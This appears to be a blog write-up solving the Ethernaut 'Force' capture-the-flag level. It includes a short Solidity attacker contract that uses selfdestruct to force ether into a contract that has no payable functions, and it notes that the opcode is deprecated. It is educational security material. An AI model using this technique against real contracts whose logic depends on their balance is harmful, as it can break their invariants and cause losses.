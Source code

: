 ```yaml
---
title: Ethernaut - Force - Solution
date: '2024-05-06'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Force CTF
---
```


# Ethernaut - Force - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

## Solution

To solve this level, we need to exploit the fact that `selfdestruct` allows to force-send ether to a contract, even if this contract does not have any payable functions.
More precisely, we can simply deploy the following attacker contract and send an arbitrary amount of ether (e.g., 1 wei) to that attacker contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttacker {
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    receive() external payable {
        selfdestruct(payable(VICTIM));
    }
}
```

Note, however, that this exploit will likely no longer work in the future due to the deprecation of `selfdestruct`.

At the time of writing this post, you will get the following warning when using the above attacker contract in Remix:
_Warning: "selfdestruct" has been deprecated. Note that, starting from the Cancun hard fork, the underlying opcode no longer deletes the code and data associated with an account and only transfers its Ether to the beneficiary, unless executed in the same transaction in which the contract was created (see EIP-6780). Any use in newly deployed contracts is strongly discouraged even if the new behavior is taken into account. Future changes to the EVM might further reduce the functionality of the opcode._